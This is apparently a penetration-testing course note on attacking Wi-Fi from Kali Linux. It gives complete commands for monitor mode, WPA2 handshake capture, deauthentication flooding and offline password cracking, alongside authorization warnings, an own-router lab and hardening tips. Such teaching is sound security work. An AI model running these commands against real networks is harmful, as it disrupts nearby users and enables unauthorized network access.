

# Wi-Fi & Wireless Attacks (Offensive — Kali Linux)

> **TL;DR:** Wi-Fi security testing requires a **monitor-mode & packet-injection capable** USB adapter on Kali Linux. Modern attacks focus on capturing **WPA2 4-way handshakes** or **PMKIDs** to crack offline, exploiting **WPS Pixie Dust**, or running **Evil Twin** rogue access points—never test wireless networks you do not own or lack written authorization to audit.

---

## Core Concepts & Mental Model

### Wi-Fi Security Protocols Compared
| Protocol | Encryption / Auth | Security Status | Primary Attack Vector |
|----------|-------------------|-----------------|-----------------------|
| **WEP** | RC4 (static/weak IVs) | **Broken** | Statistical IV cracking (`aircrack-ng`) in minutes |
| **WPA / WPA2-PSK** | TKIP / AES-CCMP + 4-Way Handshake | **Vulnerable to weak passphrases** | Deauth + 4-way handshake capture, or clientless **PMKID** capture + offline cracking (`hashcat -m 22000`) |
| **WPA2/WPA3-Enterprise** | 802.1X / RADIUS (EAP) | **Strong** (if certs validated) | Rogue RADIUS / Evil Twin credential harvesting (`hostapd-wpe`) |
| **WPA3-Personal** | SAE (Dragonfly handshake) | **Strong** | Downgrade attacks (Transition Mode) or side-channel flaws |
| **WPS (PIN)** | 8-digit PIN (split into two halves) | **Broken** on many routers | **Pixie Dust** offline PIN recovery or online brute-force (`reaver`) |

### The WPA2 4-Way Handshake Attack Flow


### Hardware Requirement (Crucial!)
Built-in laptop Wi-Fi cards rarely support packet injection inside a VM. On Kali Linux, pass through a dedicated **USB Wi-Fi Adapter** (e.g., chipsets **Atheros AR9271**, **Ralink RT3070**, or **Realtek RTL8812AU** like Alfa AWUS036ACH) via VirtualBox/VMware USB passthrough.

---

## Quick-Reference Command Cheatsheet

| Step | Kali Command | Purpose |
|------|--------------|---------|
| **Check Interface** | `iwconfig` / `iw dev` | Verify wireless interface name (e.g., `wlan0`) |
| **Kill Interference** | `sudo airmon-ng check kill` | Stop `NetworkManager` & `wpa_supplicant` before monitor mode |
| **Enable Monitor Mode** | `sudo airmon-ng start wlan0` | Put adapter into monitor mode (`wlan0mon`) |
| **Test Injection** | `sudo aireplay-ng --test wlan0mon` | Verify your adapter can inject packets |
| **Scan All APs** | `sudo airodump-ng wlan0mon` | Discover nearby BSSIDs, channels (`CH`), encryption (`ENC`), and clients |
| **Capture Handshake** | `sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon` | Lock onto target channel & BSSID to capture the 4-way handshake |
| **Send Deauth (Lab Only)** | `sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon` | Send 5 deauth frames to force a client to reconnect and send the handshake |
| **Crack with `aircrack-ng`** | `aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap` | Crack captured WPA2 handshake using `rockyou.txt` |
| **Crack with `hashcat`** | `hcxpcapngtool -o hash.hc22000 cap-01.cap && hashcat -m 22000 hash.hc22000 rockyou.txt` | Convert `.cap` to `22000` format for fast GPU cracking |
| **Automated Audit** | `sudo wifite --kill` | Automated Kali Wi-Fi auditing wrapper (PMKID, WPS, Handshake) |
| **Restore Normal Wi-Fi** | `sudo airmon-ng stop wlan0mon && sudo systemctl start NetworkManager` | Return interface to managed mode & restore internet |

---

## Common Pitfalls & Defensive Notes
- **Testing Unauthorized Networks:** Deauthentication attacks are a Denial-of-Service against nearby users and are **illegal** without explicit authorization. Only target your own lab router or a Faraday/isolated testbed.
- **Forgetting `airmon-ng check kill`:** If `NetworkManager` keeps running, it will constantly hop channels and break `airodump-ng` captures.
- **Defensive Tip:** Disable **WPS** completely on routers, upgrade to **WPA3-Personal (SAE)** (or WPA2-AES with **802.11w Protected Management Frames** to block deauth spoofing), use a **16+ character random passphrase**, and isolate guest Wi-Fi from internal corporate VLANs.

---

## Hands-On Lab: End-to-End WPA2 Handshake Capture & Cracking (Isolated Lab Router)

**Goal:** Practice the complete Kali Wi-Fi auditing workflow against **your own isolated test router** (configured with WPA2-PSK and a test password from `rockyou.txt`).

### Step 1: Enable Monitor Mode & Test Injection
```bash
# 1. Check wireless interface name (e.g., wlan0)
iw dev

# 2. Kill NetworkManager/wpa_supplicant so they don't hop channels
sudo airmon-ng check kill

# 3. Start monitor mode (creates wlan0mon)
sudo airmon-ng start wlan0

# 4. Verify packet injection works
sudo aireplay-ng --test wlan0mon
```

### Step 2: Scan & Capture the 4-Way Handshake
```bash
# 1. Find your test router's BSSID and Channel (press Ctrl+C once found)
sudo airodump-ng wlan0mon

# 2. Lock onto your test router's channel (e.g., 6) and BSSID to capture packets
sudo airodump-ng -c 6 --bssid <YOUR_ROUTER_MAC> -w /tmp/wifi_cap wlan0mon
```
*Teaching Moment:* Keep `airodump-ng` running, then either reconnect your phone/test laptop to the router OR send 3–5 deauth frames in a second terminal (`sudo aireplay-ng -0 3 -a <ROUTER_MAC> -c <CLIENT_MAC> wlan0mon`). Watch for `[ WPA handshake: <MAC> ]` in the top-right!

### Step 3: Crack the Handshake & Restore Wi-Fi
```bash
# Option A: Crack directly with aircrack-ng
aircrack-ng -w /usr/share/wordlists/rockyou.txt /tmp/wifi_cap-01.cap

# Option B: Convert for GPU cracking with hashcat
hcxpcapngtool -o /tmp/wifi.hc22000 /tmp/wifi_cap-01.cap
hashcat -m 22000 /tmp/wifi.hc22000 /usr/share/wordlists/rockyou.txt --force

# Restore normal Wi-Fi on Kali
sudo airmon-ng stop wlan0mon
sudo systemctl start NetworkManager
```

---

## Practice & Next Steps
- **Latest Step-by-Step Syllabus (Full Walkthrough):** [Modern Kali Wi-Fi Pentesting Syllabus (`wifite`, `airodump-ng`, `hcxdumptool`, `hashcat`, `reaver`)](tools/aircrack_and_wifi_tools.md)
- **Deep-Dive Module:** [Wi-Fi Evil Twin Attack & Lab Simulation](wifi_evil_twin.md) (Step-by-step `hostapd` + `dnsmasq` rogue AP simulation)
- **Home Lab:** Set up a cheap spare router on an isolated bench (no internet needed) with WPA2-PSK and a known weak password from `rockyou.txt` to practice end-to-end capture and cracking legally.
- **Next Topic:** [Privilege Escalation (Linux & Windows)](privilege_escalation.md)
